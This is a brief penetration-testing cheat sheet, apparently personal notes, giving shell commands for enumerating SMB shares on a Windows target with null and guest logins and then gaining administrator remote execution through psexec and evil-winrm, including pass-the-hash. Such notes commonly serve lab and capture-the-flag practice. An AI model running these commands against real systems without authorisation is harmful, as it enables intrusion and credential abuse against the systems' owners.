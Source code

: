 Put IP after protocol or the tool crashes!

Add domain NB name to /etc/hosts

```shell
crackmapexec smb $TARGET_IP -u '' -p ''
```

Show all files and DIRs for guest:

```shell
crackmapexec smb $TARGET_IP -u 'guest' -p '' -M spider_plus
```

Parse the JSON from the previous cmd into readable form:

```shell
cat $TARGET_IP.json | jq '. |map_values(keys)'
```

```shell
impacket-psexec administrator@$TARGET_IP
```

```shell
evil-winrm -i $TARGET_IP -u administrator -p $PASSWORD
```

```shell
evil-winrm -i $TARGET_IP -u administrator -H $HASH
```